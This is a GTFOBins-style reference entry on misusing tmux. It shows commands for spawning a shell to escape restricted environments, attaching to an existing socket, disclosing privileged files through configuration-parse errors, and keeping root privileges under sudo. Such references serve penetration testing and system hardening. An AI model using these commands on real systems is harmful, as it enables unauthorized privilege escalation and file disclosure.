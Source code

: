 # GTFOBin: tmux

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
tmux
```

Provided to have enough permissions to access the socket.

```
tmux -S /path/to/socket_name
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

The file is read and parsed as a `tmux` configuration file, part of the first invalid line is returned in an error message.

```
LFILE=file_to_read
tmux -f $LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo tmux
```